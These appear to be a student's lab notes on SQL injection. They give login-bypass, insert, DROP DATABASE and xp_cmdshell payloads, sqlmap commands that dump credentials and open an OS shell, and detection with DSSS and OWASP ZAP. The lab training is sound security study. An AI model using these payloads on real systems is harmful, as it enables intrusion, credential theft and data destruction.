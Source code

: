 SQL injection attacks can be performed using various techniques to view, manipulate, insert, and delete data from an application’s database. There are three main types of SQL injection:

- **In-band SQL injection**: An attacker uses the same communication channel to perform the attack and retrieve the results
- **Blind/inferential SQL injection**: An attacker has no error messages from the system with which to work, but rather simply sends a malicious SQL query to the database
- **Out-of-band SQL injection**: An attacker uses different communication channels (such as database email functionality, or file writing and loading functions) to perform the attack and obtain the results

# Lab 1: Perform SQL Injection Attacks
SQL injection can be used to implement the following attacks:

- **Authentication bypass**: An attacker logs onto an application without providing a valid username and password and gains administrative privileges
- **Authorization bypass**: An attacker alters authorization information stored in the database by exploiting SQL injection vulnerabilities
- **Information disclosure**: An attacker obtains sensitive information that is stored in the database
- **Compromised data integrity**: An attacker defaces a webpage, inserts malicious content into webpages, or alters the contents of a database
- **Compromised availability of data**: An attacker deletes specific information, the log, or audit information in a database
- **Remote code execution**: An attacker executes a piece of code remotely that can compromise the host OS

## Task 1: Perform an SQL Injection Attack on an MSSQL Database

Win server 19 - victim
Win 11 - attacker

	[Win 11]
	http://www.goodshopping.com
	Login
	Username: blah' or 1=1 --
	password : empty
	Successfully logged in

	[Win server 19]
	launch Microsoft SQL Server Management Studio 18
	LHP - Microsoft SQL Server Management Studio window, under the Object Explorer section, expand the Databases node. From the available options, expand the 
	GoodShopping node, and then the Tables node under it.
	Under the Tables node, right-click the dbo.Login file and click Select Top 1000 Rows from the context menu to view the available credentials.
	database contains only one entry with the username and password as smith and smith123
	
	[Win 11]
	www.goodshopping.com
	username:blah';insert into login values('john','apple123');--
	password:empty
	
	If no error message is displayed, it means that you have successfully created your login using an SQL injection query.
	Verify by logging
	john/apple123
	logout
		
	[Win Server 2019]
	Microsoft SQL Server Management Studio window, right-click dbo.Login, and click Select Top 1000 Rows from the context menu.New entry can be found john and apple123.
	
	[Win 11]
	www.goodshopping.com
	
	username: blah'create database mydatabase;--
	pwd: empty
	
	mydatabase - name of db
	
	[Win server 2019]
	In the Microsoft SQL Server Management Studio window, un-expand the Databases node and click the Disconnect icon and then click Connect Object Explorer icon to 
	connect to the database. In the Connect to Server pop-up, leave the default settings as they are and click the Connect button.
	A new database has been created with the name mydatabase
	
	[Win 11]
	user:blah'; DROP DATABASE mydatabase; --
	pwd:empty
	
	[Win 19]
	Refresh databse in MS SQL server - db is deleted
	Close MS SQL server
	
	[Win 11]
	goodshopping
	Login:blah';exec master..xp_cmdshell 'ping www.certifiedhacker.com -l 65000 -t'; --
	pwd: empty
	pinging the www.certifiedhacker.com website using an SQL injection query. -l is the sent buffer size and -t refers to pinging the specific host.
	
	The SQL injection query starts pinging the host, and the login page shows a Waiting for www.goodshopping.com… message at the bottom of the window.
	
	To see whether the query has successfully executed, 
	[Windows Server 2019]
	
	Right click Open Task Manager. Click More details in the lower section of the Task Manager window.Navigate to the Details tab and type p. You can observe a process 
	called PING.EXE running in the background.This process is the result of the SQL injection query that you entered in the login field of the target website.
	
	End task ping.exe
---
## Task 2: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap

	[parrot]
	Launch http://www.moviescope.com
	sam/test
	View Profile -> Make a note of the URL in the address bar
	Right click on the page + Inspect Element(Q)
	Console -> document.cookie (copy cookie value)
	
	Terminal
	sudo su
	sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="copied value" --dbs
	--dbs  -> enumerates dbms db
	Displays information about the web server OS, web application technology, and the backend DBMS
	
	choose a database and use sqlmap to retrieve the tables
	
	sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="copied value" -D moviescope --tables
	 -D specifies the DBMS database to enumerate and 
	 --tables enumerates DBMS database tables.
	
	retrieve the table content of the column User_Login
	
	sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="copied value" -D moviescope -T User_Login --dump
	 - dump all the User_Login table content.
	
	Logout from the website and relogin with found credentials
	
	sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="copied value" --os-shell
		 prompt for an interactive OS shell.
	
	Once sqlmap acquires the permission to optimize the machine, it will provide you with the OS shell. 
	
	hostname  -> where the site is running
	TASKLIST  -> view a list of tasks that are currently running on the target system.
---
# Lab 2: Detect SQL Injection Vulnerabilities using Various SQL Injection Detection Tools

## Task 1: Detect SQL Injection Vulnerabilities using DSSS
	Win server 2019 - www.moviescope.com is hosted
	
	[parrot]
	sudo su
	cd DSSS
	python3 dsss.py
	
	launch http://www.moviescope.com/
	sam/test
	ViewProfile
	Rightclick on the page + Inspect Element
	console -> document.cookie (copy)
	
	Terminal
	python3 dsss.py -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="copied value"
	Highlight the vulnerable website link, right-click it, and, from the options, click Copy.
	
	Firefox-new terminal
	paste the vulnerable website link
	observe that information regarding available user accounts appears under the View Profile tab.
---
## Task 2: Detect SQL Injection Vulnerabilities using OWASP ZAP

	[Win server 2019]
	launch ZAP
	Quick start - Automated Scan
	Target URL - http://www.moviescope.com - Attack
	Alerts - SQL injection vul
	observe the information such as Risk, Confidence, Parameter, Attack, etc.,
---
